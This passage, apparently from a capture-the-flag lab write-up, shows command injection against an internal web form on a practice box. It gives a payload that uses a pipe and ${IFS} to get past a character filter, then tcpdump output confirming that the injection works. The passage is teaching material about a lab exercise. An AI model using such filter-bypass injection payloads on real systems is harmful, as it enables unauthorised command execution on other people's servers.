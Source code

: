 <img src="/images/breakme/breakme_internal_webserver.webp" alt="Internal webserver initial page" class="postImage">
<p>We are greeted with 3 input fields. Initial exploration revealed that the first input field performs a ping to the requested Ip address. The second input field looks for a user and the third for a file. It's quite obvious here that we probably have some kind of command injection vulnerability. In the first input field, entering anything other than a valid IP address fails. Therefore, it seemed that this input field is not all that valuable to us. The second input field seemed more interesting. To verify whether command injection was possible, I tested some special characters. Most of them where filtered except: $|{}?. Using this knowledge, I started crafting an initial payload to test whether there was command injection:</p>
<pre>
|ping${IFS}10.9.235.177
</pre>
<img src="/images/breakme/breakme_payload.webp" alt="burpsuite payload privilege escalation" class="postImage">
<p>The payload uses the "|" to breakout of the current command that is running. As spaces are also filtered, I used the internal field separator (${IFS}) which defaults to a space in linux.</p>
<p>Success, Command injection is achieved:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:25:44.293954 IP 10.10.66.31 > 10.9.235.177: ICMP echo request, id 62095, seq 1, length 64
09:25:44.293963 IP 10.9.235.177 > 10.10.66.31: ICMP echo reply, id 62095, seq 1, length 64
09:25:45.294790 IP 10.10.66.31 > 10.9.235.177: ICMP echo request, id 62095, seq 2, length 64
09:25:45.294804 IP 10.9.235.177 > 10.10.66.31: ICMP echo reply, id 62095, seq 2, length 64
09:25:46.296296 IP 10.10.66.31 > 10.9.235.177: ICMP echo request, id 62095, seq 3, length 64
09:25:46.296312 IP 10.9.235.177 > 10.10.66.31: ICMP echo reply, id 62095, seq 3, length 64
09:25:47.297019 IP 10.10.66.31 > 10.9.235.177: ICMP echo request, id 62095, seq 4, length 64
</pre>